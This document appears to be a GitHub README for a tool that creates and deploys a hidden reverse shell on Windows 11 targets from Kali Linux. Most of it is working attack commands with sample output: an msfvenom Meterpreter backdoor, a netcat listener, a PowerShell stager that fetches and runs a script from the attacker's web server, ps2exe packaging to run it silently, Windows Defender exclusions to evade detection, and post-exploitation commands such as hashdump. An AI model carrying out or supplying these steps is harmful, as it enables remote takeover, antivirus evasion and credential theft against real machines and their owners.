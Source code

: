 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press `Ctrl + Alt + t` for open a first Kali Linux terminal and execute `sudo su` and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write `pwsh` for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. To use Meterpreter for enhanced functionality: Write `exit` and continue in first Kali Linux terminal with the following commands:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```
 - This commands creates EXE file for running meterpreter backdoor in the target:

5. Copy $exe_name and $sneaky_psname to web-server of your Kali Linux
```bash
cp $lpath$exe_name $lwebpath
cp $sneaky_psname $lwebpath
```

6. Start listening on the hidden reverse shell port
```bash
nc -nvlp 5555
```

## Meterpreter Reverse Shell
1. Open a new Kali terminal 2 for msfconsole and execute `sudo su` then `msfconsole` the following commands:
```msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost $lhost
set lport $lport
exploit
```


# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

7. Return to the Kali terminal 1 and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

8. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ExclusionProcess "powershell.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147848028) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
Add-MpPreference -ExclusionPath '$rpath$exe_name'
Add-MpPreference -ExclusionProcess "$exe_name"
```


9. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```
 - **Note:** If after entering the above commands you do not see any newly added rules in Windows Defender, repeat the procedure until they appear. If after some time there are still no changes, then check the launch of the hidden reverse shell with administrator privileges

10. Download $exe_name to target for meterpreter reverse shell
```powershell
Invoke-WebRequest -Uri "http://$lhost/$exe_name" -OutFile "$rpath$exe_name"
```

11. Run $exe_name in target via  `$rpath$exe_name`

12. If successful, you will see a Meterpreter session opened in the Kali terminal 2 like that.
```msfconsole
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending stage (201798 bytes) to 192.168.0.13
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.13:49687) at 2024-03-10 16:16:16 +0200

meterpreter > 
```
 - Congratulations, you have a full reverse shell on your target.

## Example Commands Meterpreter

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

## Example stay in target system after rebooting



Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
